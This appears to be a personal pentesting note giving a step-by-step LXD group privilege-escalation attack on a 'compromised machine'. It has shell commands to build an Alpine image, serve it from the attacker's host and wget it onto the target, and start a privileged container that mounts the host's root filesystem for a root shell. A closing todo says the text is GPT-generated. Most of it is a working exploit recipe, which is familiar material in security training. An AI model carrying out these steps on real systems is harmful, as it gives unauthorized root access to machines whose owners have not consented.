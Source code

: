 LXD (Linux Container Daemon) can be used for <mark style="background: #FF5582A6;">privilege escalation </mark>if a compromised user account is a member of the `lxd` or `lxc` group. This is possible because LXD operates as a root process and carries out actions for any user with write access to the LXD UNIX socket, often without attempting to match the privileges of the calling user [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/). 

Here is a step-by-step guide on how you can use LXD for privilege escalation on a compromised machine:

1. **Check if the compromised user is a member of the `lxd` or `lxc` group**: You can do this by examining the `/etc/group` file for the compromised user's name [Source 6](https://reboare.github.io/lxd/lxd-escape.html). 

```bash
cat /etc/group | grep "lxd\|lxc"
```

2. **Create an LXD image**: You need to create an LXD image that you can import into the compromised system. You can do this using the `lxd-alpine-builder` script available on GitHub [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/). 

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This script will create an Alpine Linux image for LXD.

3. **Transfer the image to the compromised machine**: You can use a simple HTTP server to host the image and then download it onto the compromised machine [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).

```bash
# On your local machine
python -m SimpleHTTPServer

# On the compromised machine
cd /tmp
wget http://your-ip-address:8000/alpine-image.tar.gz
```

4. **Import the image into LXD**: Once the image is on the compromised machine, you can import it into LXD [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).

```bash
lxc image import ./alpine-image.tar.gz --alias myimage
```

5. **Create and start a new container**: Create a new container using the imported image and start it [Source 7](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md).

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
```

6. **Execute commands inside the container**: With the container running, you can execute commands inside it. Since the container has access to the host's root filesystem, you can perform actions as the root user [Source 7](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md).

```bash
lxc exec ignite /bin/sh
```

Once inside the container, you can navigate to `/mnt/root` to access the host's filesystem. From here, you can perform actions as the root user, effectively escalating your privileges on the compromised machine [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).
- #todo this is gpt generated -> make it more clean 